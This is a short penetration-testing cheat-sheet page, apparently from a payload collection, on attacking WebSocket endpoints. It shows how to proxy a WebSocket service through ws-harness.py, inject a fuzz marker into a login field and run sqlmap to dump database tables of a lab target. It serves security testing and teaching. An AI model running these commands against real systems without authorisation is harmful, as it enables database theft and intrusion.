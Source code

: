 # Web Sockets Attacks

> The WebSocket protocol allows a bidirectional and full-duplex communication between a client and a server



## Summary

* [Tools](#tools)
* [Using ws-harness.py](#using-ws-harness-py)

## Tools

* [ws-harness.py](https://gist.githubusercontent.com/mfowl/ae5bc17f986d4fcc2023738127b06138/raw/e8e82467ade45998d46cef355fd9b57182c3e269/ws.harness.py)

## Using ws-harness.py

Start ws-harness to listen on a web-socket, and specify a message template to send to the endpoint.

```powershell
python ws-harness.py -u "ws://dvws.local:8080/authenticate-user" -m ./message.txt
```

The content of the message should contains the **[FUZZ]** keyword.

```json
{"auth_user":"dGVzda==", "auth_pass":"[FUZZ]"}
```

Then you can use any tools against the newly created web service, working as a proxy and tampering on the fly the content of message sent thru the websocket.

```python
sqlmap -u http://127.0.0.1:8000/?fuzz=test --tables --tamper=base64encode --dump
```


## References

- [HACKING WEB SOCKETS: ALL WEB PENTEST TOOLS WELCOMED by Michael Fowl | Mar 5, 2019](https://www.vdalabs.com/2019/03/05/hacking-web-sockets-all-web-pentest-tools-welcomed/)
- [Hacking with WebSockets - Qualys - Mike Shema, Sergey Shekyan, Vaagn Toukharian](https://media.blackhat.com/bh-us-12/Briefings/Shekyan/BH_US_12_Shekyan_Toukharian_Hacking_Websocket_Slides.pdf)
